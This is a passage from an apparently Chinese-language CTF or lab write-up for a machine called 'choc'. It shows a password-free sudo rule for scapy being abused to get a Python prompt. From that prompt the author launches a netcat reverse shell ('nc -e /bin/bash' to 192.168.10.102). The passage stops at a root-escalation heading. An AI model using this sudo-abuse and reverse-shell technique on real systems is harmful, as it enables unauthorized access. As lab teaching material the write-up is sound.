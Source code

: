```bash
User torki may run the following commands on choc:
    (sarah) NOPASSWD: /usr/bin/scapy
(remote) torki@choc:/tmp$ /usr/bin/scapy
WARNING: Cannot read wireshark manuf database
INFO: Can't import matplotlib. Won't be able to plot.
INFO: Can't import PyX. Won't be able to use psdump() or pdfdump().
WARNING: Failed to execute tcpdump. Check it is installed and in the PATH
INFO: Can't import python-cryptography v1.7+. Disabled WEP decryption/encryption. (Dot11)
INFO: Can't import python-cryptography v1.7+. Disabled IPsec encryption/authentication.
WARNING: IPython not available. Using standard Python shell instead.
AutoCompletion, History are disabled.
                                      
                     aSPY//YASa       
             apyyyyCY//////////YCa       |
            sY//////YSpcs  scpCY//Pp     | Welcome to Scapy
 ayp ayyyyyyySCP//Pp           syY//C    | Version 2.4.0
 AYAsAYYYYYYYY///Ps              cY//S   |
         pCCCCY//p          cSSps y//Y   | https://github.com/secdev/scapy
         SPPPP///a          pP///AC//Y   |
              A//A            cyP////C   | Have fun!
              p///Ac            sC///a   |
              P////YCpc           A//A   | Craft packets like I craft my beer.
       scccccp///pSP///p          p//Y   |               -- Jean De Clerck
      sY/////////y  caa           S//P   |
       cayCyayP//Ya              pY/Ya
        sY/PsY////YCc          aC//Yp 
         sc  sccaCY//PCypaapyCP//YSs  
                  spCPY//////YPSps    
                       ccaacs         
                                      
>>> 
```

然后一测试发现就是 python 环境：

```bash
>>> print(1)
1
>>> 
```

尝试反弹shell即可。。。。。

```bash
>>> import os;
>>> os.system("nc -e /bin/bash 192.168.10.102 3456")
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506142329098.png" alt="image-20250614172854941" style="zoom: 33%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506142329099.png" alt="image-20250614172919152" style="zoom:50%;" />

### 提权root
